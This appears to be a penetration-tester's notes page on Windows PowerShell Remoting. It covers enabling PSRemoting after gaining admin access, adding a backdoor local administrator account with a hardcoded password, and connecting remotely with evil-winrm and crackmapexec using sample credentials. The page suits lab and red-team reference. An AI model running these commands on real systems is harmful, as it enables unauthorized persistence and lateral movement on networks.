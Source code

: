 # PSRemoting

## Enabling PSRemoting

After getting administrator access to a machine it is possible to enable PSRemoting:

```
Enable-PSRemoting
```

It might be usefull to add a new user or a user you already have to the local `Administrator` or `Remote Management Group`.

```
net user user Welcome01! /add
net localgroup administrators user /add
net localgroup "Remote Management Users" /add
```

## Accessing the machine

### PowerShell Enter-PSsession

```
Enter-PSSession ws01
```

![](<../../../.gitbook/assets/image (20) (1) (2).png>)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (12) (1) (1) (1).png>)

## Crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec winrm 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (42) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
#### Observation

During testing I found out that crackmapexec is really slow over winrm if Windows Firewall is enabled on our fully up-to-date Windows 10 machine.
{% endhint %}

## References

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
